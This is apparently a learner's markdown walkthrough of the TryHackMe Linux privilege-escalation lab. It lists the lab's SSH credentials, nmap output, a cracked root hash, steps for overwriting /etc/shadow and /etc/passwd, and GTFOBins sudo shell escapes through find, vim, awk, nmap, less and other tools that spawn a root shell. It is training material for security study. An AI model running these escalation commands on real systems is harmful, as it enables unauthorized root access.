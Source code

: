  # TryHackMe
## Linux privEsc room 

### Target Ip Adresss
 
**10.10.104.17**


connect through it with ssh using 

``ssh user@10.10.104.17``

password: `password321`


```
user account: user@debian
id: uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

nmap scan result 

```
hown: 993 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 5.5p1 Debian 6+squeeze5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a4:6c:d1:c8:5b:03:f2:af:33:3f:84:15:cf:15:ed:ba (DSA)
|_  2048 08:84:3e:96:4d:9a:2f:a1:db:be:68:29:80:ab:f3:56 (RSA)
25/tcp   open     smtp    Exim smtpd 4.84
| smtp-commands: debian.localdomain Hello ip-10-8-166-103.eu-west-1.compute.internal [10.8.166.103], SIZE 52428800, 8BITMIME, PIPELINING, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELP 
80/tcp   open     http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open     rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      58810/tcp   mountd
|   100005  1,2,3      59744/udp   mountd
|   100021  1,3,4      51633/tcp   nlockmgr
|   100021  1,3,4      56680/udp   nlockmgr
|   100024  1          50010/udp   status
|_  100024  1          60676/tcp   status
2049/tcp open     nfs     2-4 (RPC #100003)
5050/tcp filtered mmcc
8080/tcp open     http    nginx 1.6.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.6.2
|_http-title: Welcome to nginx on Debian!
```

### Weak File Permissions - Read/Writable /etc/shadow
 

As Shadow file is read and writeable so,
 
Using Shadow found root user password Hash

`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

crack it using `john` with wordlist file `rockyou.txt`

so we found hash type is `sha512crypt`
and the password is "password123"

so we can login into root user with that password using command 
`su root`

As shadow file writable so we can generate new hash using command 
`mkpasswd -m sha-512 {newpasswordhere}`
after successfully generate hash place it to the hash place login with password that you use to generate hash 


### Weak File Permissions - Writable /etc/passwd


As passwd file is writable so we use this and generate password hash with the command 
openssl passwd {NewPasswordHere}

After the replace the password hash that you generated into "x" singn in passwd file 
Then you can login into root user with that password that you use to generate hash 
------------Allternative--------------------
Copy the root user line and append it with the end of the file and change root with newroot and replace the hash with "x" sign in passwd file 
Now to change the user into newroot with that password that you use to generate hash  

============================================
Sudo - Shell Escape Sequences 
==============================

list programs which sudo allows your user to run using command 

sudo -l

In my target user case they are 

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more


that command are allow to my Target user

Using the link: https://gtfobins.github.io/  
GTFObins list if we found the command in that list that sudo allow on the user we can gain root shell with only Escape sequence mention in GTFObins list 

So now try gain root shell of all the command that sudo allow on my target user using GTFObins list 

1) iftop
Command: sudo iftop
!/bin/sh

write that command and we foung root shell

2) find 
Command: sudo find . -exec /bin/sh \; -quit

write that command and we foung root shell

3) nano
To esclate the privilege using nano first use command "sudo nano"
After that when nano text editor is open press "ctrl+r" and after that press "ctrl+x" 
Then type "reset; sh 1>&0 2>&0" and press enter and you have root shell NOTE: type without double qotation marks (")

4) vim 
Command: sudo vim -c ':!/bin/sh'
Write that command and you gain root access
5)man 
Commands:
         sudo man man
         !/bin/sh
use this commands to gain root access

6) awk 

Command: sudo awk 'BEGIN {system("/bin/sh")}'

Write that command and you gain root access

7) less 
Commands: less /etc/profile
          !/bin/sh

use this command to gain root access

8) ftp
Commands:
         ftp
         !/bin/sh 
use this command to gain root privilege

9) nmap
Commands: 
sudo nmap --interactive
nmap> !sh

use this command to gain root access

10) more
Commands: 
         TERM= sudo more /etc/profile
         !/bin/sh
use this commands to gain root access
=========================================
These are all the command that are allow my target user account and with the help of GTFObins we successfully gain root access 

one command are allow on my target user account but there exploit not found in GTFObins and they are 
 "apache2" 
=================================================================================================================================================================================
TO Be Continued...
